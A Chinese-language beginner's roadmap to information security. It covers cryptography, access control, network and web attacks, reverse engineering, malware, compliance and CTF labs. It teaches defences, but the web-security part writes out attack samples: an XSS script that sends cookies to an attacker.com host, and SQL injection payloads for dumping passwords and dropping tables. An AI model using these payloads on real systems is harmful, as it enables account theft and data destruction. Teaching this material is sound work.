

# 信息安全入门学习指南

> **适用对象**：零基础初学者  
> **学习目标**：建立信息安全完整知识框架，掌握核心概念与基本攻防原理  
> **学习周期**：长期学习（建议 3-6 个月系统学习）  
> **实验环境**：Kali Linux / Docker / 在线靶场  
> **合规声明**：本文所有攻防技术仅用于合法授权的学习与研究，请勿用于未授权场景。

---

## 第一部分：知识地图

### 1.1 信息安全全景知识图谱



### 1.2 学习路径总览

```
第1阶段：基础入门（1-2个月）
  ├── 信息安全概述与基本概念
  ├── 密码学基础
  ├── 计算机网络复习
  └── Linux系统基础

第2阶段：核心模块（2-3个月）
  ├── 身份与访问控制
  ├── 网络安全基础
  ├── Web安全入门
  └── 系统安全基础

第3阶段：实战进阶（3-6个月）
  ├── Web安全深入
  ├── 逆向工程入门
  ├── 恶意代码分析
  └── CTF基础训练

第4阶段：方向深耕（6个月+）
  ├── 渗透测试方向
  ├── 安全开发方向
  ├── 逆向与漏洞挖掘方向
  └── 合规与治理方向
```

---

## 第二部分：核心模块详解

### 模块一：信息安全概述

#### 1.1 CIA 三元组（信息安全三大目标）

| 属性 | 英文 | 定义 | 生活化类比 | 保障措施 |
|------|------|------|------------|----------|
| 机密性 | Confidentiality | 确保信息不被未授权的人获取 | **信件密封**：只有收信人能拆开看 | 加密、访问控制、脱敏 |
| 完整性 | Integrity | 确保信息在传输/存储中不被篡改 | **印章/火漆**：文件被改动就能发现 | 哈希、数字签名、校验和 |
| 可用性 | Availability | 确保授权用户能正常访问使用 | **24小时营业**：需要时总能用 | 冗余、备份、DDoS防护 |

> **易混淆点提醒**：  
> - 机密性 ≠ 完整性：加密保证机密性（别人看不懂），但不能保证完整性（别人可以改乱码让你也看不懂）  
> - 生活例子：把信写成密码文是机密性；在信封封口盖章是完整性

#### 1.2 常见威胁类型（STRIDE 模型）

| 威胁 | 英文 | 含义 | 示例 |
|------|------|------|------|
| 欺骗 | Spoofing | 冒充他人身份 | 伪造邮箱发件人地址 |
| 篡改 | Tampering | 修改数据或代码 | 修改网页内容、篡改交易金额 |
| 抵赖 | Repudiation | 做了坏事不承认 | 用户转账后说不是自己操作的 |
| 信息泄露 | Information Disclosure | 不该知道的信息泄露了 | 错误页面暴露数据库结构 |
| 拒绝服务 | Denial of Service | 让系统无法正常使用 | DDoS 攻击打瘫网站 |
| 权限提升 | Elevation of Privilege | 获得更高权限 | 普通用户变成管理员 |

#### 1.3 安全设计基本原则

1. **最小权限原则**：只给完成工作所需的最少权限（类比：公司前台不需要财务系统权限）
2. **纵深防御**：多层防护，一层被突破还有下一层（类比：小区大门 + 单元门 + 家门 + 保险柜）
3. **零信任**：永不信任，始终验证（类比：即使是公司内部人员，进机密室也要刷卡）
4. **默认安全**：默认配置就是最安全的（类比：新手机默认有锁屏密码）
5. **攻击面最小化**：能不暴露的就不暴露（类比：房子窗户越少，小偷越难进来）

#### 1.4 安全开发生命周期（SDL）

```
需求分析 → 设计 → 编码 → 测试 → 部署 → 运维 → 退役
    ↓        ↓       ↓       ↓       ↓       ↓
  安全需求  威胁建模  安全编码  安全测试  安全配置  漏洞响应
```

---

### 模块二：密码学基础

#### 2.1 密码学三大基础技术对比

| 技术 | 目的 | 特点 | 常见算法 | 类比 |
|------|------|------|----------|------|
| **对称加密** | 保密（机密性） | 同一密钥加密解密，速度快 | AES, DES, SM4 | 同一把钥匙锁和开箱子 |
| **非对称加密** | 保密/密钥交换 | 公钥加密私钥解密，速度慢 | RSA, ECC, SM2 | 邮箱：谁都能投（公钥），只有主人能开（私钥） |
| **哈希算法** | 完整性校验 | 单向不可逆，定长输出 | MD5, SHA-256, SM3 | **指纹**：每个人独一无二，从指纹推不出本人 |

> **⚠️ 重要提醒：加密 vs 哈希**  
> - **加密**是可逆的：有密钥就能解密还原  
> - **哈希**是不可逆的：永远不能从哈希值还原原文  
> - 常见误区："MD5加密" 说法不准确，应该说 "MD5哈希"

#### 2.2 对称加密详解

**工作原理**：使用同一个密钥进行加密和解密

```
明文 + 密钥 → [加密算法] → 密文
密文 + 密钥 → [解密算法] → 明文
```

**常见算法**：

| 算法 | 密钥长度 | 安全性 | 应用场景 |
|------|----------|--------|----------|
| DES | 56位 | 低（已被破解） | 历史遗留系统 |
| 3DES | 112/168位 | 中 | 金融系统（逐步淘汰） |
| AES | 128/192/256位 | 高 | 主流选择，WPA2、文件加密 |
| SM4（国密） | 128位 | 高 | 国内政务、金融系统 |

**工作模式**：
- ECB（电子密码本）：相同明文产生相同密文，不安全，不推荐
- CBC（密码分组链接）：每个分组依赖前一个，需要初始向量IV
- GCM（伽罗瓦/计数器模式）：同时提供加密+完整性校验，推荐

#### 2.3 非对称加密详解

**工作原理**：一对密钥（公钥+私钥），公钥公开，私钥保密

```
场景1：加密通信（用公钥加密，私钥解密）
  发送方用接收方公钥加密 → 密文 → 接收方用自己私钥解密

场景2：数字签名（用私钥签名，公钥验证）
  发送方用自己私钥签名 → 签名 + 原文 → 接收方用发送方公钥验证
```

**常见算法**：

| 算法 | 密钥长度 | 特点 | 应用 |
|------|----------|------|------|
| RSA | 2048/4096位 | 经典，数学基于大整数分解 | HTTPS、数字签名 |
| ECC（椭圆曲线） | 256位≈RSA 3072位 | 更短密钥同等安全，计算快 | 移动设备、区块链 |
| SM2（国密） | 256位 | 基于椭圆曲线，国内标准 | 国内政务、金融 |

> **生活化类比**：  
> 想象你有一个神奇的邮箱（公钥），地址告诉所有人，谁都可以往里投信（加密）。但只有你有钥匙（私钥）能打开邮箱取信（解密）。

#### 2.4 哈希算法详解

**特点**：
1. **单向性**：从原文算哈希值容易，反过来几乎不可能
2. **定长输出**：无论输入多长，输出长度固定（如 SHA-256 总是 256 位）
3. **抗碰撞性**：很难找到两个不同的输入产生相同的哈希值
4. **雪崩效应**：输入改变一点点，输出完全不同

**常见哈希算法对比**：

| 算法 | 输出长度 | 安全性 | 状态 |
|------|----------|--------|------|
| MD5 | 128位 | 低（已发现碰撞） | 不推荐用于安全场景 |
| SHA-1 | 160位 | 低（已发现碰撞） | 逐步淘汰 |
| SHA-256 | 256位 | 高 | 主流推荐 |
| SHA-3 | 224/256/384/512位 | 高 | 新一代标准 |
| SM3（国密） | 256位 | 高 | 国内标准 |

**哈希的应用场景**：
- 密码存储（加盐哈希）
- 文件完整性校验（下载文件后验证 MD5/SHA）
- 数字签名（先哈希再签名）
- 区块链（工作量证明）

> **⚠️ 密码存储的正确姿势**：  
> ❌ 错误：明文存储密码  
> ❌ 错误：直接用 MD5/SHA-256 哈希密码（彩虹表可破解）  
> ✅ 正确：使用 bcrypt / scrypt / Argon2 等慢哈希算法 + 随机盐值

#### 2.5 数字签名与 PKI

**数字签名的作用**：
1. 身份认证：确认发送者身份
2. 完整性：确保消息未被篡改
3. 不可抵赖：发送者不能否认发过消息

**签名验证流程**：
```
发送方：
  1. 计算原文的哈希值
  2. 用自己的私钥加密哈希值 → 数字签名
  3. 发送 原文 + 数字签名

接收方：
  1. 收到 原文 + 数字签名
  2. 用发送方的公钥解密签名 → 得到哈希值A
  3. 自己计算原文的哈希值B
  4. 比较 A 和 B，相同则验证通过
```

**PKI（公钥基础设施）**：
- **CA（证书颁发机构）**：可信的第三方，签发数字证书
- **数字证书**：包含公钥 + 持有者信息 + CA签名，证明"这个公钥确实属于这个人"
- 信任链：根CA → 中级CA → 用户证书

> **类比**：数字证书就像身份证，CA就是公安局。你说自己是谁没用，要看身份证（证书），身份证是公安局（CA）发的，大家都信任公安局。

#### 2.6 TLS/SSL 握手流程

**TLS 1.2 简化握手流程**：

```
客户端                           服务器
  │                                │
  │── ClientHello ───────────────→│  支持的加密套件、随机数A
  │                                │
  │←── ServerHello ───────────────│  选定加密套件、随机数B
  │←── Certificate ───────────────│  服务器证书（含公钥）
  │←── ServerHelloDone ───────────│
  │                                │
  │── ClientKeyExchange ─────────→│  预主密钥（用服务器公钥加密）
  │── ChangeCipherSpec ──────────→│  通知：后续消息将加密
  │── Finished ──────────────────→│  加密的握手验证消息
  │                                │
  │←── ChangeCipherSpec ──────────│
  │←── Finished ──────────────────│
  │                                │
  │◄───────── 加密通信 ──────────►│
```

**三个随机数生成会话密钥**：
- 客户端随机数 + 服务器随机数 + 预主密钥 → 主密钥 → 会话密钥

---

### 模块三：身份与访问控制

#### 3.1 核心概念

| 概念 | 英文 | 定义 | 类比 |
|------|------|------|------|
| 认证 | Authentication | 你是谁？（验证身份） | 进门刷工卡，证明你是公司员工 |
| 授权 | Authorization | 你能做什么？（权限控制） | 虽然是员工，但不能随便进财务室 |
| 审计 | Accounting | 你做了什么？（操作记录） | 门禁记录谁什么时候进了哪个门 |

> **⚠️ 易混淆：认证 vs 授权**  
> - 认证（Authentication）：确认你是你（你是谁）  
> - 授权（Authorization）：确认你有权限（你能做什么）  
> - 记忆口诀：认证=验明正身，授权=赋予权限

#### 3.2 认证方式

| 认证因素 | 说明 | 示例 |
|----------|------|------|
| 你知道的 | 知识因素 | 密码、PIN码、密保问题 |
| 你拥有的 | 持有因素 | 手机验证码、U盾、门禁卡 |
| 你本身 | 生物因素 | 指纹、人脸、虹膜、声纹 |

**MFA（多因素认证）**：同时使用两种以上不同因素的认证方式
- 示例：密码 + 手机验证码（知识 + 持有）
- 比单因素安全得多

#### 3.3 访问控制模型

| 模型 | 全称 | 特点 | 适用场景 |
|------|------|------|----------|
| DAC | 自主访问控制 | 资源所有者自己决定谁能访问 | 文件系统权限 |
| MAC | 强制访问控制 | 系统强制分配安全级别，不可更改 | 军事、高安全系统 |
| RBAC | 基于角色的访问控制 | 给角色分配权限，用户属于角色 | 企业管理系统 |
| ABAC | 基于属性的访问控制 | 根据用户/资源/环境属性动态判断 | 云服务、零信任 |

**RBAC 示例**：
```
角色：管理员 → 权限：增删改查所有用户
角色：普通用户 → 权限：查看自己的信息
角色：审计员 → 权限：查看所有日志

用户张三 → 属于[管理员]角色 → 拥有管理员的所有权限
```

#### 3.4 常见认证协议

**OAuth 2.0**：
- 用途：第三方应用授权访问，不暴露密码
- 示例：用微信登录某个 App
- 四个角色：资源所有者、客户端、授权服务器、资源服务器

**OIDC（OpenID Connect）**：
- 基于 OAuth 2.0 的身份认证协议
- 提供 ID Token，包含用户身份信息

**SSO（单点登录）**：
- 一次登录，访问多个系统
- 常见实现：CAS、SAML、OIDC

---

### 模块四：网络与系统安全

#### 4.1 网络安全设备

| 设备 | 作用 | 工作层级 | 类比 |
|------|------|----------|------|
| 防火墙 Firewall | 根据规则允许/拒绝流量 | 网络层/应用层 | 小区保安，查证件放行 |
| IDS 入侵检测系统 | 发现攻击并告警 | 监测，不拦截 | 监控室保安，发现异常报告 |
| IPS 入侵防御系统 | 发现并主动阻断攻击 | 在线拦截 | 门口安检，发现危险物品直接扣下 |
| WAF Web应用防火墙 | 防护Web应用攻击 | 应用层 | 专门查液体/打火机的安检（更专业） |

> **⚠️ 易混淆：IDS vs IPS**  
> - IDS：检测系统（Detection）→ 只报警，不拦截，旁路部署  
> - IPS：防御系统（Prevention）→ 发现就拦，串接部署  
> - 记忆：IDS是"摄像头"，IPS是"保安+门禁"

#### 4.2 常见网络攻击

**ARP 欺骗**：
- 原理：伪造ARP响应，让目标主机把流量发给攻击者
- 危害：中间人攻击、窃取数据、篡改数据
- 防御：静态ARP绑定、ARP防火墙、交换机端口安全

**DDoS（分布式拒绝服务）**：
- 原理：大量僵尸主机同时发送请求，耗尽目标资源
- 类型：流量型（SYN洪水、UDP洪水）、连接型、应用层
- 防御：CDN、流量清洗、负载均衡、带宽扩容

**中间人攻击（MITM）**：
- 原理：攻击者插入通信双方之间，转发并篡改数据
- 条件：能控制网络流量（如公共WiFi）
- 防御：HTTPS/TLS、证书验证、端到端加密

#### 4.3 系统安全基础

**提权攻击**：
- 水平提权：访问同级别的其他用户资源
- 垂直提权：从普通用户提升为管理员
- 常见途径：内核漏洞、服务漏洞、配置错误、弱密码

**缓冲区溢出**：
- 原理：向缓冲区写入超过容量的数据，覆盖返回地址
- 后果：执行恶意代码、崩溃、提权
- 防御：ASLR、DEP/NX、Stack Canary、地址空间随机化

**Rootkit**：
- 定义：隐藏自身和恶意程序的工具集
- 类型：用户级、内核级、固件级
- 危害：隐蔽性极强，难以发现和清除

---

### 模块五：Web 安全

#### 5.1 OWASP Top 10 简介（2021版）

| 排名 | 漏洞名称 | 说明 |
|------|----------|------|
| 1 | 访问控制失效 | Broken Access Control |
| 2 | 加密机制失效 | Cryptographic Failures |
| 3 | 注入 | Injection（SQL注入等） |
| 4 | 不安全设计 | Insecure Design |
| 5 | 安全配置错误 | Security Misconfiguration |
| 6 | 易受攻击和过时的组件 | Vulnerable and Outdated Components |
| 7 | 身份认证失败 | Identification and Authentication Failures |
| 8 | 软件和数据完整性失败 | Software and Data Integrity Failures |
| 9 | 安全日志和监控失败 | Security Logging and Monitoring Failures |
| 10 | 服务端请求伪造 | SSRF |

#### 5.2 SQL 注入

**原理**：用户输入被拼接到SQL语句中，攻击者可以构造恶意输入改变SQL语义

**漏洞示例（PHP）**：
```php
// 危险代码：直接拼接用户输入
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id = $id";
$result = mysql_query($sql);
```

**攻击示例**：
```
正常输入：?id=1
恶意输入：?id=1 OR 1=1 -- 
实际执行：SELECT * FROM users WHERE id = 1 OR 1=1 -- 
结果：返回所有用户数据
```

**进阶攻击**：
- `?id=1 UNION SELECT username,password FROM users --` （联合查询）
- `?id=1; DROP TABLE users --` （堆叠查询，删库）
- 基于时间的盲注、基于报错的注入

**防御措施**：
1. ✅ **参数化查询/预编译语句**（最有效）
2. ✅ 输入验证和过滤
3. ✅ 最小权限原则（数据库账号不要给DBA权限）
4. ✅ WAF防护

**修复后的代码**：
```php
// 安全代码：使用PDO预编译语句
$id = $_GET['id'];
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
$stmt->execute([$id]);
$user = $stmt->fetch();
```

#### 5.3 XSS 跨站脚本攻击

**原理**：攻击者在网页中注入恶意脚本，其他用户访问时执行

**三种类型**：

| 类型 | 特点 | 存储位置 | 示例场景 |
|------|------|----------|----------|
| 反射型 | 一次性，参数中 | URL参数 | 搜索框输出搜索词 |
| 存储型 | 持久化，危害大 | 数据库 | 评论区、留言板 |
| DOM型 | 前端JS处理 | 浏览器本地 | URL哈希、前端渲染 |

**攻击示例**：
```html
<!-- 评论内容中注入 -->
<script>alert(document.cookie)</script>

<!-- 盗取Cookie -->
<script>
  new Image().src = 'http://attacker.com/steal?c=' + document.cookie;
</script>
```

**防御措施**：
1. ✅ 输出编码/转义（HTML实体编码）
2. ✅ CSP（内容安全策略）
3. ✅ HttpOnly Cookie（防止JS读取Cookie）
4. ✅ 输入过滤和验证

#### 5.4 CSRF 跨站请求伪造

**原理**：利用用户已登录的身份，诱导用户访问恶意网站，恶意网站发起请求

**攻击示例**：
```html
<!-- 攻击者网站上的代码 -->

```
用户登录了银行网站，访问攻击者网站时，浏览器自动带上Cookie，请求就发出去了。

**防御措施**：
1. ✅ CSRF Token（随机令牌，验证请求来源）
2. ✅ SameSite Cookie 属性
3. ✅ 验证 Referer 头
4. ✅ 重要操作二次验证（短信验证码等）

> **⚠️ 易混淆：XSS vs CSRF**  
> 
> | 对比项 | XSS | CSRF |
> |--------|-----|------|
> | 攻击来源 | 被攻击的网站本身 | 第三方恶意网站 |
> | 核心 | 注入脚本执行 | 借用用户身份发请求 |
> | 需要登录 | 不一定 | 必须已登录 |
> | 防御 | 输出编码、CSP | CSRF Token、SameSite |
> | 类比 | 在餐厅食物里下毒 | 偷用别人的会员卡点餐 |

#### 5.5 SSRF 服务端请求伪造

**原理**：攻击者构造请求，让服务器发起请求访问内部资源

**危害**：
- 探测内网架构
- 访问内网敏感服务（Redis、MongoDB等）
- 读取本地文件（file://协议）
- 云环境元数据泄露

**防御措施**：
1. ✅ 白名单限制允许访问的域名/IP
2. ✅ 禁用不必要的协议（file://、gopher://等）
3. ✅ 不将响应结果返回给用户
4. ✅ 网络隔离

#### 5.6 文件上传漏洞

**原理**：服务器允许上传文件但未正确验证，攻击者上传恶意脚本文件

**攻击方式**：
- 直接上传 .php / .jsp / .asp 等脚本文件
- 绕过文件类型检查（修改Content-Type、后缀名大小写、双后缀）
- 配合文件包含漏洞执行

**防御措施**：
1. ✅ 白名单验证文件类型（不要用黑名单）
2. ✅ 检查文件内容（文件头、魔数）
3. ✅ 文件重命名（随机化文件名）
4. ✅ 上传目录不可执行权限
5. ✅ 文件存储到独立域名/CDN

---

### 模块六：逆向与漏洞挖掘（入门）

#### 6.1 汇编基础

**常见寄存器（x86）**：
- EAX：累加器，函数返回值
- EBX：基址寄存器
- ECX：计数器
- EDX：数据寄存器
- ESI/EDI：源/目标索引
- EBP：栈基址指针
- ESP：栈顶指针
- EIP：指令指针（下一条要执行的指令地址）

**常见指令**：
- `mov`：数据传送
- `push` / `pop`：栈操作
- `call` / `ret`：函数调用/返回
- `add` / `sub`：加减运算
- `cmp` / `jmp` / `je` / `jne`：比较和跳转

#### 6.2 栈溢出原理

**栈的结构**：
```
高地址
  ├─────────────┤
  │  函数参数   │
  ├─────────────┤
  │  返回地址   │  ← EBP+4
  ├─────────────┤
  │  旧EBP值    │  ← EBP
  ├─────────────┤
  │  局部变量   │
  │  缓冲区     │  ← 可能溢出的地方
  │  ...        │
  └─────────────┘
低地址（栈向下生长）
```

**溢出过程**：
1. 向缓冲区写入超过容量的数据
2. 数据向上覆盖，覆盖旧EBP、返回地址
3. 返回地址被改成恶意代码地址
4. 函数返回时跳转到恶意代码执行

**防护机制**：
- **Stack Canary（栈金丝雀）**：返回地址前放一个随机值，返回前检查是否被改
- **DEP/NX（数据执行保护）**：栈上的数据不能执行
- **ASLR（地址空间随机化）**：每次运行基地址都不一样
- **RELRO**：重定位表只读保护

#### 6.3 格式化字符串漏洞

**原理**：printf等函数的格式化字符串参数可控

```c
// 危险代码
char buf[100];
scanf("%s", buf);
printf(buf);  // 格式化字符串可控！

// 安全代码
printf("%s", buf);
```

**利用效果**：
- 读取栈上数据：`%x`、`%s`
- 读取任意地址内存：`%n$s`
- 向任意地址写数据：`%n`

#### 6.4 常用工具

| 工具 | 用途 |
|------|------|
| IDA Pro / Ghidra | 静态反汇编、逆向分析 |
| x64dbg / OllyDbg | 动态调试 |
| gdb + pwndbg | Linux下调试 |
| AFL / libFuzzer | 模糊测试（Fuzzing） |
| checksec | 检查二进制保护机制 |

---

### 模块七：恶意代码与应急响应

#### 7.1 恶意代码分类

| 类型 | 特点 | 传播方式 | 示例 |
|------|------|----------|------|
| 病毒 Virus | 需要宿主文件，自我复制 | 文件感染、宏病毒 | CIH病毒、宏病毒 |
| 蠕虫 Worm | 独立存在，网络传播 | 漏洞利用、邮件 | 震网、永恒之蓝 |
| 木马 Trojan | 伪装成正常程序，隐藏恶意功能 | 欺骗下载 | 远控木马、盗号木马 |
| 勒索软件 Ransomware | 加密文件，索要赎金 | 漏洞、钓鱼 | WannaCry、LockBit |
| 间谍软件 Spyware | 窃取用户信息 | 捆绑安装 | 键盘记录器 |
| Rootkit | 隐藏自身和恶意程序 | 漏洞利用 | 内核级Rootkit |
| APT | 高级持续性威胁，长期潜伏 | 鱼叉攻击、0day | 国家级攻击组织 |

#### 7.2 勒索软件防御

**防护措施**：
1. 定期备份（3-2-1原则：3份备份、2种介质、1份异地）
2. 及时打补丁（特别是高危漏洞）
3. 禁用不必要的服务（如SMBv1）
4. 网络分段（限制横向移动）
5. 员工安全意识培训（防钓鱼）
6. 终端检测与响应（EDR）

#### 7.3 应急响应流程

**PDCERF 模型**：
```
准备(Preparation) → 检测(Detection) → 遏制(Containment) 
    → 根除(Eradication) → 恢复(Recovery) → 跟踪(Follow-up)
```

**关键工作**：
- 取证：保存现场、磁盘镜像、内存镜像
- 日志分析：系统日志、应用日志、网络日志
- IOC（Indicators of Compromise）：IP、域名、文件哈希、特征字符串
- 威胁情报：了解攻击者、攻击手法、IOC共享

---

### 模块八：安全开发与代码审计

#### 8.1 安全编码原则

1. **所有输入都是不可信的**：永远不要相信用户输入
2. **最小权限**：程序、数据库、服务都只给必要的权限
3. **纵深防御**：多点校验，一层被破还有下一层
4. **默认安全**：默认配置就是最安全的
5. **错误信息最小化**：不要给用户暴露太多系统信息

#### 8.2 常见安全编码问题

| 问题 | 后果 | 正确做法 |
|------|------|----------|
| SQL拼接 | SQL注入 | 参数化查询/ORM |
| 直接输出用户输入 | XSS | 输出编码/转义 |
| 明文存储密码 | 密码泄露 | bcrypt/Argon2加盐哈希 |
| 硬编码密钥 | 密钥泄露 | 环境变量、密钥管理服务 |
| 不安全的随机数 | 可预测 | 使用密码学安全随机数 |
| 文件路径拼接 | 路径遍历 | 白名单、路径规范化 |

#### 8.3 代码审计方法

**审计方式**：
- **SAST（静态应用安全测试）**：不运行，扫描源码
  - 工具：SonarQube、Fortify、Checkmarx、CodeQL
- **DAST（动态应用安全测试）**：运行中测试，黑盒
  - 工具：Burp Suite、OWASP ZAP
- **IAST（交互式应用安全测试）**：结合两者

**人工审计步骤**：
1. 了解应用架构和功能
2. 寻找危险函数和关键路径
3. 追踪数据流（从输入到敏感操作）
4. 验证漏洞

---

### 模块九：合规与治理

#### 9.1 国内法规标准

| 法规/标准 | 简称 | 主要内容 |
|-----------|------|----------|
| 网络安全法 | 网安法 | 网络安全基本法，2017年实施 |
| 数据安全法 | 数安法 | 数据安全保护，2021年实施 |
| 个人信息保护法 | 个保法 | 个人信息保护，2021年实施 |
| 网络安全等级保护制度 | 等保2.0 | 分五级，从低到高 |
| 关键信息基础设施安全保护条例 | 关基条例 | 重要行业基础设施保护 |

#### 9.2 等保 2.0 简介

**五个等级**：
- 第一级：自主保护级（一般企业内部系统）
- 第二级：指导保护级（一般信息系统）
- 第三级：监督保护级（重要信息系统，金融、政务等）
- 第四级：强制保护级（特别重要系统）
- 第五级：专控保护级（国家级核心系统）

**技术要求**：物理安全、网络安全、主机安全、应用安全、数据安全

#### 9.3 国际标准

| 标准 | 内容 |
|------|------|
| ISO 27001 | 信息安全管理体系（ISMS） |
| ISO 27002 | 信息安全控制措施实践指南 |
| SOC 2 | 服务组织控制报告（信任服务准则） |
| GDPR | 欧盟通用数据保护条例 |
| PCI DSS | 支付卡行业数据安全标准 |

---

### 模块十：CTF 入门

#### 10.1 CTF 题型介绍

| 题型 | 全称 | 内容 | 入门难度 |
|------|------|------|----------|
| Web | Web | Web漏洞利用、渗透测试 | ★★☆☆☆ |
| Crypto | Cryptography | 密码学、编码、加密破解 | ★★★☆☆ |
| Pwn | Pwnable | 二进制漏洞利用、栈溢出 | ★★★★☆ |
| Reverse | Reverse Engineering | 逆向工程、破解软件 | ★★★★☆ |
| Misc | Miscellaneous | 杂项、取证、隐写术 | ★★☆☆☆ |

#### 10.2 入门学习路线

```
第1步：基础知识
  ├── Linux基础命令
  ├── 网络协议基础
  ├── 编程基础（Python必学）
  └── Web基础（HTML/CSS/JS/PHP）

第2步：刷简单题
  ├── BUUCTF 新手区
  ├── XCTF 攻防世界 新手区
  └── NSSCTF 入门题

第3步：学习工具
  ├── Burp Suite（Web必备）
  ├── IDA/Ghidra（逆向）
  ├── gdb + pwndbg（Pwn）
  └── Python + pwntools（脚本）

第4步：参加比赛
  ├── 校内赛/新生赛
  ├── 线上公开赛（强网杯、网鼎杯等）
  └── 国际赛（picoCTF、HackTheBox）
```

---

## 第三部分：关键对比汇总

### 3.1 对称加密 vs 非对称加密

| 对比项 | 对称加密 | 非对称加密 |
|--------|----------|------------|
| 密钥数量 | 1个（同一密钥加密解密） | 1对（公钥+私钥） |
| 速度 | 快，适合大数据量 | 慢，适合小数据 |
| 密钥交换 | 困难（需要安全通道交换密钥） | 容易（公钥公开） |
| 主要用途 | 加密大量数据 | 密钥交换、数字签名 |
| 典型算法 | AES、DES、SM4 | RSA、ECC、SM2 |
| 类比 | 同一把钥匙开锁上锁 | 邮箱：公钥投递，私钥开箱 |

### 3.2 加密 vs 哈希

| 对比项 | 加密 | 哈希 |
|--------|------|------|
| 可逆性 | 可逆（有密钥可解密） | 不可逆（无法还原） |
| 输出长度 | 可变（与明文相关） | 固定（如SHA-256总是256位） |
| 密钥 | 需要密钥 | 不需要密钥 |
| 用途 | 保密（机密性） | 完整性校验、指纹 |
| 典型算法 | AES、RSA | MD5、SHA-256、SM3 |
| 类比 | 保险箱（锁上也能打开） | 指纹（独一无二但推不出本人） |

### 3.3 认证 vs 授权

| 对比项 | 认证（Authentication） | 授权（Authorization） |
|--------|------------------------|------------------------|
| 问题 | 你是谁？ | 你能做什么？ |
| 过程 | 验证身份 | 分配权限 |
| 顺序 | 先认证 | 后授权 |
| 示例 | 输入用户名密码、刷指纹 | 判断你能不能进财务室 |
| 常见方式 | 密码、MFA、生物识别 | RBAC、ACL、权限列表 |

### 3.4 IDS vs IPS

| 对比项 | IDS（入侵检测系统） | IPS（入侵防御系统） |
|--------|---------------------|---------------------|
| 部署方式 | 旁路（镜像流量） | 串接（流量经过） |
| 作用 | 检测并告警 | 检测并阻断 |
| 误报影响 | 只是报警，不影响业务 | 误报会误拦正常流量 |
| 响应方式 | 被动（通知管理员） | 主动（自动拦截） |
| 类比 | 监控摄像头 | 保安+门禁 |

### 3.5 XSS vs CSRF

| 对比项 | XSS（跨站脚本） | CSRF（跨站请求伪造） |
|--------|-----------------|----------------------|
| 攻击点 | 注入脚本到目标网站 | 利用用户身份发请求 |
| 攻击来源 | 目标网站本身 | 第三方恶意网站 |
| 是否需要登录 | 不一定 | 必须已登录 |
| 核心危害 | 执行脚本、偷Cookie | 冒用身份操作 |
| 防御方法 | 输出编码、CSP、HttpOnly | CSRF Token、SameSite |
| 类比 | 在餐厅食物里下毒 | 偷用别人的会员卡点餐 |

---

## 第四部分：实验项目（分级）

### 入门级（第1-2个月）

#### 实验1：Linux 基础命令与环境搭建
- **目标**：熟悉 Linux 基本操作
- **内容**：
  - 安装 Kali Linux 虚拟机（VMware/VirtualBox）
  - 练习文件操作、权限管理、网络配置命令
  - 安装常用工具：python、git、curl、nmap
- **参考**：Kali Linux 官方文档、Linux 基础教程

#### 实验2：密码学基础实验
- **目标**：理解对称加密、哈希的使用
- **内容**：
  - 使用 OpenSSL 进行 AES 加密解密
  - 计算文件的 MD5/SHA-256 哈希值，验证文件完整性
  - 生成 RSA 密钥对，进行加密和签名
- **命令示例**：
  ```bash
  # AES加密
  openssl enc -aes-256-cbc -in plain.txt -out cipher.enc
  
  # 计算哈希
  md5sum file.txt
  sha256sum file.txt
  
  # 生成RSA密钥对
  openssl genrsa -out private.key 2048
  openssl rsa -in private.key -pubout -out public.key
  ```

#### 实验3：搭建 DVWA 靶场
- **目标**：搭建 Web 漏洞练习环境
- **内容**：
  - 使用 Docker 部署 DVWA
  - 熟悉各种 Web 漏洞环境
- **部署命令**：
  ```bash
  docker run -d -p 80:80 vulnerables/web-dvwa
  ```

#### 实验4：SQL 注入基础（DVWA）
- **目标**：理解 SQL 注入原理和利用
- **内容**：
  - 在 DVWA 的 SQL Injection 模块（low 级别）
  - 手动测试注入点
  - 使用 UNION 查询获取数据库信息
  - 尝试 SQLMap 自动化注入
- **工具**：Burp Suite、SQLMap

### 进阶级（第3-4个月）

#### 实验5：XSS 攻击与防御
- **目标**：掌握三种 XSS 类型和防御方法
- **内容**：
  - 反射型 XSS：构造 payload 弹窗
  - 存储型 XSS：注入持久化脚本
  - DOM 型 XSS：前端注入
  - 盗取 Cookie 演示
  - 学习 CSP 绕过
- **靶场**：DVWA、XSS Game、prompt.ml

#### 实验6：Burp Suite 常用功能
- **目标**：熟练使用 Web 渗透测试工具
- **内容**：
  - Proxy 代理抓包改包
  - Repeater 重放请求
  - Intruder 爆破（简单的密码爆破）
  - Scanner 主动/被动扫描
- **练习**：在 DVWA 上练习各模块功能

#### 实验7：密码学 CTF 入门题
- **目标**：熟悉常见编码和密码
- **内容**：
  - Base64/Base32/Base16 编解码
  - 凯撒密码、栅栏密码、维吉尼亚密码
  - 简单的 RSA 攻击（低加密指数、共模攻击）
- **工具**：CyberChef、Python、gmpy2
- **练习**：BUUCTF Crypto 新手题

#### 实验8：逆向工程入门
- **目标**：了解基本的逆向分析方法
- **内容**：
  - 安装 Ghidra/IDA 免费版
  - 分析简单的 crackme 程序
  - 查找序列号、字符串比较
  - 修改跳转指令绕过验证
- **练习**：BUUCTF Reverse 新手题

